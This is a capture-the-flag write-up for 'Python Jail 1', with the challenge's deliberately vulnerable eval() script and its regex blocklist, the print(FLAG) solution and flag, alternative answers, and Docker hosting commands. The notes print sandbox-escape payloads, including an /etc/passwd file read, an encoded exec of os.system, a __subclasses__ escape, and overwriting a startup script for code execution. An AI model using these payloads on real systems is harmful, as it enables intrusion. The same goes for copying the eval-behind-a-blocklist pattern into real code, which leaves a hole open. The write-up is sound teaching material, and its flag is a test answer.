



# Python Jail 1
**Level**: Medium

**Points**: 413

**Author**: Micheal Erickson and Justin Applegate

**Writeup by**: Noah Walker

**Description**:
```markdown
Jails help you learn to bypass filters + how to mess with languages. We have given you the source code running on our server. Your goal is to learn how to bypass the filters to get the flag. Once you have code that works, start this netcat session and submit it within to get your flag.

`nc byuctf.xyz 40000`

[jail1.py]
```

## Writeup
The Python Jail series consists of 4 challenges revolve around a set of Python 3 scripts, in which the goal is to pass a Python expression over netcat that will extract the flags stored on the server. These flags are printed to stdout, and it happens that all stdout from the program is piped back to us.

Let's take a look at the code for Python Jail 1 (the simplest):

```python
import re

# We have a file on our server called answer.py with the flag stored. In order to
# read it, you must type in Python code that evaluates to 1337
from answer import FLAG

# these are all the characters or symbols you can't use - you must write Python code that equals 1337 WITHOUT these
regexes = [
    # no two digits in a row (aka 13 and 37 will be caught)
    r'\d\d',

    # no common math symbols
    r'\+',
    r'-',
    r'\*',
    r'/',

    # we've removed other characters
    r'<',
    r'>',
    r'\^',
    r'v',
    r'&',
    r'\|',
    r'_',
    r'%',

    # blocks all Unicode symbols and 'exec' and 'class' to prevent unwanted RCE
    r'[\U000000ff-\U0010ffff]',
    r'exec',
    r'class'
]

inp = input('>>> ')

if any([re.search(r, inp) for r in regexes]):
    print("Don't do bad stuff")
    exit()

if eval(inp) == 1337:
    print(FLAG)
else:
    print('wrong')
```

Looks like we can't use a very direct method (sending `1337`), but we can call whatever functions we want (outside of `exec` and the keyword `class`). So, let's circumvent the conditional completely and send `print(FLAG)`.

```python
print(FLAG)
ctf{j4ils_4llow_you_to_le4rn_how_to_byp4ss_filters}
wrong
```

**Flag** - `ctf{j4ils_4llow_you_to_le4rn_how_to_byp4ss_filters}`

## Real-World Application
Bypassing filters is a common challenge for exploits. Most RCE or SQL Injection payloads rely on some method of encoding to avoid being filtered out by WAFs and the like. Thus, by learning how to bypass filters, we can better develop effective exploits as a red team or patch discovered vulnerabilities as a blue team.

Thanks for reading!

## Notes

**Other possible solutions**:

```python
int((str(0)).join(str(a) for a in [1,3,3,7])[::2])
int('1a3a3a7'.replace('a',''))
int('leet'.replace('l','1').replace('e','3').replace('t','7'))
int('1' '3' '3' '7')
int('1a3a3a7'[::2])
len('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
```

**Notes about RCE**:
* It will be possible to read any files on the server by using `print(open("\x2Fetc\x2Fpasswd").read())` (encoding the `/` character). However, if they do that to read the flag, they deserve it. It'll be running in docker, so I'm not too concerned about this.
* `exec` (and all Unicode characters) has been disabled, which is how all the other RCEs come about.
* The letter `v` is blocked so `eval` can't be used.
    * If `eval` *could* be used, this payload would work: `eval(''.join((chr(int('1' '0' '1' '')),chr(int('1' '2' '0' '')),chr(int('1' '0' '1' '')),chr(int('9' '9' '')),chr(int('4' '0' '')),chr(int('3' '4' '')),chr(int('1' '0' '5' '')),chr(int('1' '0' '9' '')),chr(int('1' '1' '2' '')),chr(int('1' '1' '1' '')),chr(int('1' '1' '4' '')),chr(int('1' '1' '6' '')),chr(int('3' '2' '')),chr(int('1' '1' '1' '')),chr(int('1' '1' '5' '')),chr(int('5' '9' '')),chr(int('3' '2' '')),chr(int('1' '1' '1' '')),chr(int('1' '1' '5' '')),chr(int('4' '6' '')),chr(int('1' '1' '5' '')),chr(int('1' '2' '1' '')),chr(int('1' '1' '5' '')),chr(int('1' '1' '6' '')),chr(int('1' '0' '1' '')),chr(int('1' '0' '9' '')),chr(int('4' '0' '')),chr(int('3' '9' '')),chr(int('1' '0' '8' '')),chr(int('1' '1' '5' '')),chr(int('3' '9' '')),chr(int('4' '1' '')),chr(int('3' '4' '')),chr(int('4' '1' '')))))`
* `class` is blocked, so no more `[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == "catch_warnings"][0]` payloads.
* RCE, however, is possible by using `open("/ctf/start.sh", "w").write("insert code here")`. `/ctf/start.sh` is the script that's run each time someone connects to the netcat port, so it can be modified to do whatever the user wants. It's a one shot attempt, though - if the commands don't work as expected, it's impossible to change it since the Python script won't be run anymore.







## Hosting
This challenge should be a Docker container that runs the `jail1.py` file whenever someone connects to port 40000. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

`sudo docker build -t jail1 .`

The command to start the challenge is:

`sudo docker run -p 40000:40000 jail1:latest`

The command to stop the challenge (since CTRL+C won't work) is:

`sudo docker stop jail1`
